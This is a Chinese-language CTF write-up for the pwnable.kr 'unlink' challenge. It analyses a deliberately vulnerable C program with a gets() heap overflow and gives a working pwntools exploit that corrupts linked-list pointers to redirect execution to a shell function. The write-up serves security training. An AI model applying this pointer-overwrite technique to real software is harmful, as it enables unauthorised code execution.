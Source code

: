 ```yaml
---
title: kr_unlink
date: 2020-02-04 23:21:02
tags:
- pwn
- pwnable.kr
---
```


# pwnable.kr unlink

### 0x0 基础知识

[CTF Wiki unlink](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unlink-zh/)

CTF all in one 中 unlink部分

### 0x1 分析

先看安全性

![](https://i.loli.net/2020/02/04/SbQ1nz8qFDfgRP5.png)

看来栈上和堆上的代码是不能执行的。但是没有canary。地址也是固定的。

看一下源代码梳理一下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```



很明显是在`gets(A->buf);`这里实现堆溢出。然后利用unlink函数来处理问题。

那么这里一个堆的结构是这样的

| presize | size   |
| :------ | ------ |
| FD      | BK     |
| buffer  | buffer |

然后按照`unlink`函数，也就是：

`P->fd->bk = P->bk`

`P->bk->fd = P->fd`

按照这个思路。 `P->bk->fd`应该指向栈上的相应位置比如`ret`位置（但这道题不是。）。`P->fd`应该指向的位置应该存储`shell`函数的起始地址。

但是看到`main`函数的汇编代码最后部分：

```assembly
; var int local_4h_2 @ ebp-0x4
0x080485ff      8b4dfc         mov ecx, dword [local_4h_2]
0x08048602      c9             leave
0x08048603      8d61fc         lea esp, dword [ecx - 4]
0x08048606      c3             ret
```

所以。这里`P->bk->fd`应该指向`ebp-0x4`的位置。

先通过输出获取A chunk的`heap`和`stack`位置。然后计算出B chunk的`fd`和`bk`应该指向的位置。构建`payload`。

### 0x2 EXP

```python
#!/usr/bin/python
#-*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'

shell_addr = 0x080484eb
payload = p32(shell_addr) + p32(0)
s =  ssh(host='pwnable.kr',
                 port=2222,
                 user='unlink',
                 password='guest'                         
                 )
p = s.process("./unlink")
#p = process('./unlink')
p.recvuntil('address leak: ')
A_stack = p.recv(10)
bk = eval(A_stack) + 0x10
print bk
#pause()
p.recvuntil('address leak: ')
A_heap = p.recv(10)
fd = eval(A_heap) + 0xc 
print fd
#pause()
payload = payload + p32(0) + p32(0) + p32(fd) + p32(bk) 
p.sendlineafter("now that you have leaks, get shell!\n", payload)
p.interactive()
```

